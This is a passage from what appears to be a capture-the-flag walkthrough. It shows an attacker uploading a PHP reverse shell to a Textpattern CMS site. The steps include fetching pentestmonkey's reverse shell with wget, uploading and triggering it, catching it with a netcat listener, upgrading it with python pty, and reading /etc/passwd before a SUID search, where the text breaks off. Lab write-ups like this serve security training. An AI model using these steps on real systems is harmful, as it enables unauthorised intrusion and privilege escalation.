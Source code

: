 It worked, we're in. There's a variety of things we can do here: post articles, manipulate website pages, upload files. I'm wondering if I can upload a php reverse shell here and send a request to it from the browser.

```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

Change the appropriate credentials, rename to `shell.php` and upload at:

```
firefox http://$targ3t/textpattern/textpattern/index.php?event=file
```

Now when I'm trying to run `nc -lvnp 1234` and navigate to the file from this interface it doesn't do anything. I'm wondering if I can send a request to this file from the browser. I'll check if it appeared in any of the directory listings, that `feroxbuster` has found.

```
firefox http://$targ3t/textpattern/images
firefox http://$targ3t/textpattern/publish
firefox http://$targ3t/textpattern/content
```

And many others didn't have the file we uploaded. So what I did was try

```
firefox http://$targ3t/textpattern/files/shell.php
```

And it worked! We got the shell. Let's upgrade it:

```
python3 -V
```

No `python3` here. 

```
python -V
```

Seems to be Python 2.7.3. Should work:

```
python -c "import pty; pty.spawn('/bin/bash')"
```

Now that we have upgraded the shell, let's find any ways to escalate our privileges:

```
ls /home
```

Nothing in the home folder indicates there are no other users but root on this machine. 

```
cat /etc/passwd
```

This seems to confirm my suspicion. Let's find binaries with SUID bits set:
